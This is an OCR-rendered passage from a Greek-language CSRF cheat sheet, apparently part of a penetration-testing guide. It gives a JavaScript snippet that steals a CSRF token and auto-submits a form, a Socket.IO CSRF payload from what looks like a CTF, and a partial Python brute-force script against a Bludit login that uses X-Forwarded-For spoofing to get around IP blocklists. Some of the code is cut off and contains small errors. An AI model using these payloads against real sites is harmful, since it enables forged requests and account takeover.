 ```html
function getData() {
x.withCredentials = true;
x.open("GET","http://google.com?param=VALUE",true);
x.send(null);
}
x.onreadystatechange = function() {
if (x.readyState == XMLHttpRequest.DONE) {
var token = x.responseText.match(/name="token" value="(.+)"/)[1];
document.getElementById("findtoken").value = token;
document.getElementById("form").submit();
}
}
</script>
```
### CSRF με Socket.IO
```html
<script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
<script>
let socket = io('http://six.jh2i.com:50022/test');

const username = 'admin'

socket.on('connect', () => {
console.log('connected!');
socket.emit('join', {
room: username
});
socket.emit('my_room_event', {
data: '!flag',
room: username
})

});
</script>
```
## CSRF Login Brute Force

Ο κώδικας μπορεί να χρησιμοποιηθεί για να επιτεθεί σε μια φόρμα σύνδεσης χρησιμοποιώντας ένα CSRF token (Χρησιμοποιεί επίσης την κεφαλίδα X-Forwarded-For για να προσπαθήσει να παρακάμψει μια πιθανή μαύρη λίστα IP):
```python
import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
#Return CSRF + Session (cookie)
r = requests.get(URL)
csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
csrf = csrf.group(1)
session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
return csrf, session_cookie

def login(user, password):
print(f"{user}:{password}")
```